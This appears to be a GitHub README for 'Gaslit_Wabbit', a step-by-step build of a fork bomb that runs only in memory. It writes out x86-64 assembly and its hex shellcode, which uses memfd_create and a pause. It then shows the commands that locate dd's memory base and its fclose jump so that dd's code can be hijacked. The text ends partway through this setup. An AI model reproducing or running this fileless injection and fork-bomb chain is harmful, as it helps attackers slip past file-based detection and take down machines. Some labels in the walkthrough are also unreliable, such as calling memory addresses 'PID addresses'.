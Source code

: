# Gaslit_Wabbit
1978 wabbit fork bomb running in Ram

first we get the syscall numbers for
- memfd_create
- pause
- exit

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep memfd_create
```
- ```#define __NR_memfd_create 319```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep pause
```
- ```#define __NR_pause 34```

```shell
cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep exit
```
- ```#define __NR_exit 60```



next we create some assembly that will
- duplicate FDs: 10 and 11
```asm
xor rax, rax
xor rdi, rdi
mov di, 10
mov rax, 0x20
syscall
xor rax, rax
inc rdi
mov rax, 0x20
syscall
```
- create an in-memory-only file (syscall 319)
```asm
push 0x78436f73
mov rdi, rsp
mov rsi, 0
mov rax, 319
syscall
```
- suspend the process (syscall 34)
```asm
mov rax, 34
syscall
```
- exit process (syscall 60) (should never be reached)
```asm
xor rax, rax
add rax, 60
xor rdi, rdi
syscall
```
putting it all together:

```asm
BITS 64
global _start
section .text
_start:
        xor rax, rax
        xor rdi, rdi
        mov di, 10
        mov rax, 0x20
        syscall
        xor rax, rax
        inc rdi
        mov rax, 0x20
        syscall
memfd_create:
        push 0x78436f73
        mov rdi, rsp
        mov rsi, 0
        mov rax, 319
        syscall
pause:
        mov rax, 34
        syscall
exit:
        xor rax, rax
        add rax, 60
        xor rdi, rdi
        syscall
```

next, we nasm the assembly code and do a hexdump,

```shell
nasm memfd.asm
```
```shell
hexdump -v -e '"\\""x" 1/1 "%02x" ""' memfd
```
- ```\x48\x31\xc0\x48\x31\xff\x66\xbf\x0a\x00\xb8\x20\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\xff\xc7\xb8\x20\x00\x00\x00\x0f\x05\x68\x73\x6f\x43\x78\x48\x89\xe7\xbe\x00\x00\x00\x00\xb8\x3f\x01\x00\x00\x0f\x05\xb8\x22\x00\x00\x00\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05```

next, we find the PID addresses for DD fclose,

```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd"
```
```shell
555555554000-555555556000 r--p 00000000 ca:01 262762      /usr/bin/dd
555555556000-555555564000 r-xp 00002000 ca:01 262762      /usr/bin/dd
555555564000-555555569000 r--p 00010000 ca:01 262762      /usr/bin/dd
555555569000-55555556a000 r--p 00014000 ca:01 262762      /usr/bin/dd
55555556a000-55555556b000 rw-p 00015000 ca:01 262762      /usr/bin/dd
```

let's remove what we don't need,
```shell
setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12
```
- ```55555555400```

```shell
objdump -Mintel -d `which dd` | grep fclose
```
```shell
0000000000002170 <fclose@plt>:
    67e6:   e8 85 b9 ff ff     call   2170 <fclose@plt>
    681b:   e9 50 b9 ff ff     jmp    2170 <fclose@plt>
```
let's remove what we don't need,

```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```
- ```681b```

we see the PID addresses are,
- ```0x555555554000```
- ```0x681b```

now, let's put that into some variables,

```shell
pid_address_1=$(setarch x86_64 -R dd if=/proc/self/maps | grep "bin/dd" | head -c 12)
```
```shell
pid_address_2=$(objdump -Mintel -d `which dd` | grep fclose | tr -d ' ' | grep jmp | cut -c 1-4)
```